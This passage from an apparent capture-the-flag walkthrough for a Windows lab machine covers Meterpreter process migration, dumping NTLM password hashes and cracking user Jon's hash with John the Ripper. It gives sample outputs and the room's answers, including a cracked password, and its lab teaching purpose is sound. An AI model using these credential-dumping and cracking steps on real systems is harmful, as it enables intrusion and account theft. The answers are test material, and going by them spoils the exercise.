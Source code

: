 ```bash
meterpreter > migrate <PROCESS_ID>
```

**Explanation:**  
Migrating to a stable system process, such as `spoolsv.exe`, ensures that your session remains active even if the initial process is terminated.

## Cracking

Once you have a stable Meterpreter session with elevated privileges, you can proceed to extract and crack password hashes.

### Q1. Dump password hashes

In your elevated Meterpreter shell, dump the password hashes using:

```bash
meterpreter > hashdump
```

**Sample Output:**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

#### Ans: Jon

### Q2. Crack the password hash

Copy the hash for the user `Jon` and use a tool like John the Ripper to crack it:

```bash
john --format=NT --wordlist=<wordlist_path> hash.txt
```

**Sample Output:**

```bash
ffb43f0de35be4d9917ac0cc8ad57f8d : alqfna22
```

#### Ans: alqfna22

## Find Flags

### Q1. Flag 1

Navigate to the root directory and locate the first flag:

```bash
cd C:\
cat flag1.txt
```
